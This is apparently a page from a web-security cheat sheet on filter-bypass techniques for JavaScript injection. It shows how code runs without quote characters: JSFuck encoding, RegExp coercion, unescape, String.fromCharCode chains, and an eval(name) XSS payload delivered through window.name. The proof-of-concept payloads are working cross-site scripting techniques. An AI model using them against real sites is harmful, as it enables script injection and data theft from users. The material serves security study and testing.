 {% embed url="https://jsfuck.com/" %}
An encoder that can create self-executing JavaScript code with only 6 special characters
{% endembed %}

### Without `"` quotes

`RegExp` objects can be defined by surrounding text with `/` slashes, and are automatically coerced into a string surrounded by slashes again. This can become valid executable JavaScript code in a few different ways:

<pre class="language-javascript"><code class="lang-javascript"><strong>eval(1+/1,alert(),1/+1)  // Use numbers to turn '/' into a divide
</strong>1/1,alert(),1/1

<strong>eval(unescape(/%2f%0aalert()%2f/))  // Use unescape() with URL encoding and newlines
</strong>//
alert()//

<strong>eval(/alert()/.source)  // Use .source to extract the inner text of RegExp
</strong>alert()
</code></pre>

Another common method is using `String.fromCharCode()` chains to build out string character-by-character:

{% code title="Python" %}
```python
>>> f"String.fromCharCode({','.join(str(ord(c)) for c in 'alert()')})"
'String.fromCharCode(97,108,101,114,116,40,41)'
```
{% endcode %}

<pre class="language-javascript"><code class="lang-javascript"><strong>eval(String.fromCharCode(97,108,101,114,116,40,41))
</strong>alert()
</code></pre>

### Strings from other sources

In a web environment, cross-origin JavaScript can still access a few properties under your control that may be useful for smuggling strings with the injection is limited. The best example is the shortest possible XSS payload in Chrome: `eval(name)`.

The `name` variable refers to [`window.name`](https://developer.mozilla.org/en-US/docs/Web/API/Window/name) and can be set by the site that opens it using the `target` parameter. It is also kept across redirects, making it potentially useful for exfiltrating as well.

The logic below sets the current window's name to the XSS payload, and then uses `window.open()` to overwrite itself with the same name. This puts the name variable on the target site so it can `eval()` the value successfully:

<pre class="language-html"><code class="lang-html">&#x3C;script>
<strong>  name = "alert(origin)"
</strong><strong>  window.open("https://example.com?xss=eval(name)", "alert(origin)")
</strong>&#x3C;/script>
</code></pre>

